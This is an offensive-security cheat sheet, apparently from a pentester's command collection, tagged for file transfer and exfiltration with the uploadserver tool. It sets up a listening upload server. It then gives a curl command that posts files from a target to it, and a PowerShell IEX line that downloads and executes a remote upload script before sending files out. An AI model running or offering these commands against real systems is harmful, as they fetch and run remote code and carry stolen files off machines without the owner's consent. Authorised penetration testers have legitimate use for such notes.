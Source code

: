 # uploadserver
% file transfer, exfiltration, injecton

#plateform/linux #target/serve  #cat/ATTACK/LISTEN-SERVE 

## install
```bash
pipx install uploadserver
```

## python upload HTTP server (basic auth)
sudo socat TCP-LISTEN:80,fork TCP:localhost:9090
```bash
uploadserver --basic-auth-upload <uploadserver_login>:<uploadserver_password> -b <bind_ip|127.0.0.1> <http_user_port|9090>
```

## curl upload
```bash
curl -X POST http://<local_ip>:<port|80>/lab/upload -F 'files=@<path>' -u <uploadserver_login>:<uploadserver_password>
```

## powershell upload
certutil -encode <infile> <outfile>
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<local_ip>:<port|80>/<psupload_path>PSUpload.ps1');Invoke-FileUpload -Uri http://<local_ip>:<port|80>/upload -User <uploadserver_login> -Pass <uploadserver_password> -File <path>
```

= psupload_path: windows/windows_weaponize/dev/